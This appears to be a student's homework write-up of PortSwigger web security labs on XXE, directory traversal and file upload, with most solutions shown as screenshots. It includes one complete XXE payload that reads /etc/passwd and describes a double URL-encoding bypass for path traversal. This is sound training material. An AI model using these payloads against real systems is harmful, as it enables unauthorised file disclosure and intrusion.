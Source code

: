 # HOMEWORK 7. Attack to server. Part 1

## Task 1. XXE attack

The solution of the [lab](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files) is presented below:

![xxe](xxe.png)

The malicious payload allowed to get content of `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

## Task 2. Directory traversal

### Part 1

The solution of the [lab](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass) is presented below:

![dir-traversal-1](dir-traversal-1.png)

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

### Part 2

The solution of the [lab](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode) is presented below:

![dir-traversal-2](dir-traversal-2.png)

The path prefix `../../../` is URL-encoded twice

## Task 3. File upload

The solution of the [lab](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload) is presented below:

![file-upload](file-upload.png)
